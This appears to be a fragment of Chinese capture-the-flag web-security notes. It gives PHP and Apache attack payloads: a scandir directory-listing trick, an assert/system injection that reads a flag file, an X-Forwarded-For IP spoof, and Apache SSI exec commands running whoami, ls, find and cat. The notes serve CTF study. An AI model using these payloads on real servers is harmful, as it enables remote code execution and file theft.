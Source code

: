 pos(localeconv()) => '.'
scandir(pos(localeconv())) => scandir('.')

看一下当前目录下的文件，`?exp=echo(var_dump(scandir(pos(localeconv()))));`

assert

    bool assert(mixed $assertion[,string $description])，
    如果assertion是字符串，他会被assert()当做php代码执行。

就是说如果 assertion 是字符串，它将会被 assert() 当做 PHP 代码来执行

那么我们就可以构造 payload

    ?page='.system("cat templates/flag.php").'

$tem_name = $\_FILES['file']['tmp_name']; // 取得文件后缀名

\$\_FILES["file"]["name"] - 被上传文件的名称

\$\_FILES["file"]["type"] - 被上传文件的类型

\$\_FILES["file"]["size"] - 被上传文件的大小，以字节计

\$\_FILES["file"]["tmp_name"] - 存储在服务器的文件的临时副本的名称

\$\_FILES["file"]["error"] - 由文件上传导致的错误代码

获取客户端 IP `[BUUCTF 2018]Online Tool`

```php
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}
```

## shtml shtml, Apache SSI 远程命令执行漏洞 `[BJDCTF2020]EasySearch`

可控处进行上传代码，看在哪里返回 shtml，访问一下。

```
<!--#exec cmd="whoami" -->
<!--#exec cmd="ls"-->
<!--#exec cmd="pwd"-->
<!--#exec cmd="find / -type f -name flag*"-->
<!--#exec cmd="cat /var/www/html/flag_990c66bf85a09c664f0b6741840499b2"-->
```

## php 编程

变量与字符串

```php
$flag = "flag{123}";
$b = "---$flag";
$b = "---{$flag}";
echo $b;
```
